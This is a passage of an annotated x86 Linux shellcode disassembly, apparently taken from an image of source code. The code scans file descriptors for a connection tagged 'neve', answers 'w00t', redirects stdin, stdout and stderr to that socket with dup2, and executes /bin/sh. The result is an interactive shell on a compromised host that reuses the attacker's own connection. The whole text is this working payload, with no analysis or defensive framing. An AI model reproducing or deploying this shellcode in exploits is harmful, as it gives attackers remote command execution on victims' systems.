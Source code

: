 ```nasm
00000027  89CA              mov edx,ecx
00000029  8D4F08            lea ecx,[edi+0x8]
0000002C  89D0              mov eax,edx
0000002E  48                dec eax
0000002F  CD80              int 0x80    ; read
00000031  89D1              mov ecx,edx
00000033  89F2              mov edx,esi
00000035  31C0              xor eax,eax
00000037  B037              mov al,0x37 ; fcntl
00000039  CD80              int 0x80
0000003B  59                pop ecx
0000003C  817F086E657665    cmp dword [edi+0x8],0x6576656e ; even/neve
00000043  7404              jz 0x49
00000045  E2C3              loop 0xa
00000047  EBBD              jmp short 0x6
00000049  31C0              xor eax,eax
0000004B  50                push eax
0000004C  6877303074        push dword 0x74303077 ; t00w/w00t
00000051  89E1              mov ecx,esp
00000053  B004              mov al,0x4  ; write
00000055  89C2              mov edx,eax
00000057  CD80              int 0x80
00000059  31C9              xor ecx,ecx ; stdin
0000005B  31C0              xor eax,eax
0000005D  B03F              mov al,0x3f ; dup2
0000005F  CD80              int 0x80
00000061  41                inc ecx     ; stdout
00000062  31C0              xor eax,eax
00000064  B03F              mov al,0x3f ; dup2
00000066  CD80              int 0x80
00000068  41                inc ecx     ; stderr
00000069  31C0              xor eax,eax
0000006B  B03F              mov al,0x3f ; dup2
0000006D  CD80              int 0x80
0000006F  89FB              mov ebx,edi
00000071  895F08            mov [edi+0x8],ebx
00000074  31C0              xor eax,eax
00000076  89470C            mov [edi+0xc],eax
00000079  884707            mov [edi+0x7],al
0000007C  31D2              xor edx,edx
0000007E  8D4F08            lea ecx,[edi+0x8]
00000081  B00B              mov al,0xb  ; execve
00000083  CD80              int 0x80
00000085  31DB              xor ebx,ebx
00000087  89D8              mov eax,ebx
00000089  40                inc eax
0000008A  CD80              int 0x80    ; exit
0000008C  E874FFFFFF        call 0x5
00000091  2F62696E2F7368    /bin/sh
00000098  3F                aas
00000099  FA                cli
```
